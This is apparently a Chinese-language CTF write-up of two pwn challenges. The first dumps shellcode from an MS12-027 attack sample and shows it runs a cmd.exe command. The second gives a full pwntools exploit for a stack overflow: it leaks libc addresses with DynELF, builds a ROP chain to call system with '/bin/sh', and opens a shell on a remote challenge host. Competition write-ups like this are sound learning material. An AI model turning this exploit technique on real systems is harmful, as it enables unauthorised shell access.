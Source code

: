 ###PWN100
MS12-027的攻击样本，网上找到exp，根据exp中的信息，找到shellcode位置，dump出来重新编译一个exe。
调试得到flag：
```
CPU Dump
Address   Hex dump                                         ASCII
00424C1D  63 6D 64 2E|65 78 65 20|2F 63 20 65|63 68 6F 20| cmd.exe /c echo
00424C2D  78 64 63 74|66 7B 64 34|5F 35 68 31|5F 66 75 5F| xdctf{d4_5h1_fu_
00424C3D  64 34 31 5F|77 30 5F 66|33 31 7D 20|3E 20 63 3A| d41_w0_f31} > c:
00424C4D  5C 66 6C 61|67 2E 74 78|74 20 26 26|20 61 74 74| \flag.txt && att
00424C5D  72 69 62 20|63 3A 5C 66|6C 61 67 2E|74 78 74 20| rib c:\flag.txt
00424C6D  2B 68                                            +h
```

###PWN200
典型的栈溢出,开了dep,aslr,没有提供libc,但是程序使用了write函数,可以读取任意内存,于是想到使用pwntools的DynELF来搜索内存,寻找system的地址,/bin/sh字符串则可以通过保存到bss段,bss段可读可写可执行而且位置固定不变.

```
from pwn import *

context(arch = 'i386', os = 'linux')

elf = ELF('./pwn200')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x08048484

def leak(address):
    payload1 = 'a'*112 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(256)
    p.send(payload1)
    data = p.recv(256)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

#p = remote('127.0.0.1',30001)
#p = process('./pwn200')
p = remote('133.130.111.139', 2333)
p.recvuntil('\n')
d = DynELF(leak,elf = ELF('./pwn200'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

bss_addr = 0x0804a020
pppr = 0x804856c

payload2 = 'a'*112  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)

print "\n###sending payload2 ...###"
p.send(payload2)
print "###sending /bin/sh###"
p.send("/bin/sh\0")
 
p.interactive()


```
